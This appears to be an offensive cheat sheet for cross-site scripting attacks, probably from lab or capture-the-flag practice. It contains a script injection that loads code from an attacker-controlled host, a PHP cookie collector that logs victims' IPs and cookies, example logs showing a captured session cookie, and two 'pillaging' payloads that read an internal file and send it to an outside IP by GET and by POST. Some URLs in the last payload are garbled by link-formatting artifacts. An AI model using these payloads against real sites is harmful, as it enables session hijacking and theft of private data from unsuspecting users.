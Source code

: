 Inject the working payload found in the previous step and add script.js

```
<script src=http://OUR_IP/script.js></script>
```

That payload will call the index.php file into webserver’s root:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:

```
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

# XSS Pillaging

```powershell
<script>
fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.19/?file_content=" + encodeURIComponent(data));
  });
</script>

```

# XSS Pillaging (POST Request)

```bash
<a href='javascript:eval("fetch(\"[http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md\\](http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md%5C%5C)").then(response => response.text()).then(data => {fetch(\"[http://10.10.14.19/\\](http://10.10.14.19/%5C%5C)", { method: \"POST\", headers: { \"Content-Type\": \"application/x-www-form-urlencoded\" }, body: \"file_content=\" + encodeURIComponent(data) });})")'>XSS test</a>
```
